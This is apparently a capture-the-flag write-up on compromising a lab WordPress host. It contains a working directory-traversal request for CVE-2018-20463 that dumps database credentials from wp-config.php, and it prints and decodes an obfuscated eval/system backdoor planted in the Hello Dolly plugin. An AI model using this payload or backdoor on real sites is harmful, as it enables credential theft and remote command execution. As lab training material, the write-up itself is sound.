



## Vulnerability Identification 
```bash
wpscan --url http://www.smol.thm/
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://www.smol.thm/ [10.10.30.198]
[+] Started: Sun Jan 26 22:00:00 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://www.smol.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://www.smol.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://www.smol.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://www.smol.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://www.smol.thm/index.php/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>
 |  - http://www.smol.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>

[+] WordPress theme in use: twentytwentythree
 | Location: http://www.smol.thm/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://www.smol.thm/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:10 <======================================> (137 / 137) 100.00% Time: 00:00:10

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jan 26 22:00:30 2025
[+] Requests Done: 187
[+] Cached Requests: 5
[+] Data Sent: 45.648 KB
[+] Data Received: 22.04 MB
[+] Memory used: 283.418 MB
[+] Elapsed time: 00:00:30
```
```bash
> curl -s  http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt | head -10
=== JSmol2WP ===
Contributors: Jim Hu
Tags: shortcodes, JSmol, Jmol, molecular graphics, PDB
Requires at least: 3.0
Tested up to: 4.9.4
Donate link:http://biochemistry.tamu.edu/index.php/alum/giving/
Stable tag: 1.07
License: GPLv2 or later
License URI: http://www.gnu.org/licenses/gpl-2.0.html
Text domain:jsmol2wp
``` 

## PoC
```bash
> sploitscan CVE-2018-20463

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.10.5 / Alexander Hagenah / @xaitax / ah@primepage.de

╔════════════════════════╗
║ CVE ID: CVE-2018-20463 ║
╚════════════════════════╝

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2018-12-25
├ Base Score:  N/A (N/A)
├ Vector:      N/A
└ Description: An issue was discovered in the JSmol2WP plugin 1.07 for WordPress. There is an arbitrary file read
               vulnerability via ../ directory traversal in query=php://filter/resource= in the
               jsmol.php query string. This can also be used for SSRF.

┌───[ ♾️ Exploit Prediction Score (EPSS) ]
|
└ EPSS Score:  4.54% Probability of exploitation.

┌───[ 🛡️ CISA KEV Catalog ]
|
└ ❌ No data found.

┌───[ 💣 Public Exploits (Total: 1) ]
|
├ GitHub
│  └ Date: 2022-08-22 - https://github.com/Henry4E36/CVE-2018-20463
│
└ Other
   ├ PacketStorm: https://packetstormsecurity.com/search/?q=CVE-2018-20463
   └ Nuclei: https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2018/CVE-2018-20463.yaml

┌───[ 🕵️ HackerOne Hacktivity ]
|
├ Rank:        7470
├ Reports:     0
└ Severity:    Unknown: 0 / None: 0 / Low: 0 / Medium: 0 / High: 0 / Critical: 0

┌───[ 🤖 AI-Powered Risk Assessment ]
|
|                                     
| ❌ OpenAI API key is not configured correctly.
|
└────────────────────────────────────────

┌───[ ⚠️ Patching Priority Rating ]
|
└ Priority:     A+

┌───[ 📚 Further References ]
|
├ https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96-amp-SSRF
└ https://wpvulndb.com/vulnerabilities/9197

```

## Vulnerability scanning 
```bash
nuclei -u http://www.smol.thm -t smol/CVE-2018-20463.yaml

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.3.8

		projectdiscovery.io

[INF] Your current nuclei-templates  are outdated. Latest is v10.1.2
[INF] Successfully updated nuclei-templates (v10.1.2) to /home/kali/nuclei-templates. GoodLuck!

Nuclei Templates v10.1.2 Changelog
+-------+-------+---------+
| TOTAL | ADDED | REMOVED |
+-------+-------+---------+
| 10339 |     0 |   10339 |
+-------+-------+---------+
[INF] Current nuclei version: v3.3.8 (latest)
[INF] Current nuclei-templates version: v10.1.2 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 52
[INF] Templates loaded for current scan: 1
[INF] Executing 1 signed templates from projectdiscovery/nuclei-templates
[INF] Targets loaded for current scan: 1
[CVE-2018-20463] [http] [high] http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

## User Credential
```bash
> curl -s http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php\?isform\=true\&call\=getRawDataFromDatabase\&query\=php://filter/resource\=../../../../wp-config.php | grep "DB"
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
``` 

## RCE




## www-data
```php
// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
	
	$chosen = hello_dolly_get_lyric();
	$lang   = '';
	if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
		$lang = ' lang="en"';
	}

	printf(
		'<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
		__( 'Quote from Hello Dolly song, by Jerry Herman:' ),
		$lang,
		$chosen
	);
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );
```
## Decoding backdoor obfuscated string
```bash 
> echo "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } %    
```


## Inital Access


```bash
www-data@smol:/home$ cat /etc/passwd | grep "sh$"
cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/usr/bin/bash
think:x:1000:1000:,,,:/home/think:/bin/bash
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
www-data@smol:/home$ 


```